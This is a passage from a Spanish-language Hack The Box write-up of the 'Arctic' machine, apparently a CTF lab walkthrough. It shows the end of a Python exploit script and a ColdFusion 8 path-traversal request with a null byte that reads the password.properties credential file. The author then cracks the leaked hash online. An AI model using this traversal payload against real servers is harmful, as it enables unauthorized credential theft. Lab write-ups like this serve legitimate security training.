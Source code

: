 ```python
            buf += buf_s

        m = re.search('<title>(.*)</title>', buf, re.S)
        if m != None:
            title = m.groups(0)[0]
            print "title from server in %s:" % f
            print "------------------------------"
            print m.groups(0)[0]
            print "------------------------------"

if __name__ == '__main__':
    main()
```

Podemos ver que esta realizando una petición a `http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
` para extraer un archivo local.


Hagamos eso entonces y en el navegador agreguemos esa petición.


![](/assets/images/HTB/htb-writeup-Arctic/arc4.PNG)


Efectivamente nos realiza un leak de una contraseña encryptada, asi que vallamos a nuestra web de confianza y tratemos de crackearla.

* [https://crackstation.net/](https://crackstation.net/)

Logramos obtener la contraseña en texto plano

![](/assets/images/HTB/htb-writeup-Arctic/arc5.PNG)

